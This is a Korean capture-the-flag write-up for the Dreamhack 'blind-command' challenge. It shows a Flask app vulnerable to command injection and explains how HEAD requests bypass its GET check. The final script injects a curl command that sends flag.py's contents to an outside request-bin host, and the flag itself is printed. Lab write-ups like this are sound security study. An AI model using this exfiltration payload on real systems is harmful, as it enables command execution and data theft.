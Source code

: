 # Blind-command

# 문제 접근

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3afc399b-e22d-4f84-a3c3-739456b947df/Untitled.png)

blind-command 문제의 접속 정보와 문제 설명 및 문제파일을 다운로드 받을 수 있다. app.py 파일을 보면 아래 코드를 볼 수 있다.

```python
#!/usr/bin/env python3
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/' , methods=['GET'])
def index():
    cmd = request.args.get('cmd', '')
    if not cmd:
        return "?cmd=[cmd]"

    if request.method == 'GET':
        ''
    else:
        os.system(cmd)
    return cmd

app.run(host='0.0.0.0', port=8000)
```

코드는 복잡하지 않은데 GET 으로 요청을 받으면 매개변수 cmd에 담긴 값을 받는다. 메서드가 GET이 아니라면 이 cmd에 담긴값을 os.system으로 실행한다. 여기서 문제는 페이지가 GET만 허용해주고 있는데 GET으로 요청을 보내면 cmd를 실행시킬 수 없다는 점이다. 

# 문제 풀이

파이썬을 사용하여 보낼 것이므로 GET이 아닌 다른 요청들이 무엇이 있는지 찾아보았다

[https://me2nuk.com/Python-requests-module-example/](https://me2nuk.com/Python-requests-module-example/)

### **Request method**

requests 클래스에서 지원하는 요청 메서드는 `[PUT, GET, POST, HEAD, PATCH, DELETE, OPTIONS]` 메서드가 존재한다. 이 메서드를 하나씩 테스트해보았다.

 

```python
import requests
url=f"http://host3.dreamhack.games:12409"
#
data={
    "cmd":"ls"
    }
#options,get,head
response=requests.head(url)
print(url)
print(response.headers)
```

![not allowed.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f9f3499b-b3ad-48c6-a9cd-3698d9882fb4/not_allowed.png)

POST나 PUT으로 보내면 method가 허용되지 않았기 때문에 405가 오게된다. 하지만 HEAD 방식은 요청이 정상적으로 가는 것을 확인할 수 있었다.

보통 HEAD 방식은 GET 방식이 열려있는 경우 같이 열려있다고한다. HEAD방식은 GET 방식으로 보냈을 때 오는 응답에서 body만 빼고 응답이 온다. 즉 내가 원하는 명령을 실행시킬 수는 있게 되었는데 문제는 그 응답을 보기가 힘들다는 점이다. 그래서 응답 결과를 curl을 통해서 내가 원하는 곳으로 보내고자 했다.

서버를 직접 열기보다는 드림핵에서 제공하는 tools 서비스를 이용하여 이곳에서 생성되는 링크로 curl을 통해 연결한 후 get방식을 통해 flag 값을 전달하는 방식을 선택했다.

이 때 $(cat flag.py)를 하면 FLAG만 오게 된다. 그 이유는 계속 테스트해본 결과 get 방식으로 전달하게 되는 경우 공백 전까지만 전달이 되는 것으로 보인다. 

따라서 공백을 지워주는 명령어인 sed를 이용해서 flag.py의 공백을 지워준 후 grep ‘DH’를 사용해서 curl의 get방식으로 전달해 주었다.

```python
import requests
url=f"http://host3.dreamhack.games:12409?cmd=curl https://qjyfxze.request.dreamhack.games?flag=$(sed 's/ /:/g' flag.py | grep 'DH')"
#
data={
    "cmd":"ls"
    }
#options,get,head
response=requests.head(url)
print(url)
print(response.headers)
```

![캡처.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/31950aab-4684-41af-872c-2be42fb3b52a/%EC%BA%A1%EC%B2%98.png)

FLAG값인 DH{4c9905b5abb9c3eb10af4ab7e1645c23}이 정상적으로 오는 것을 확인할 수 있다.
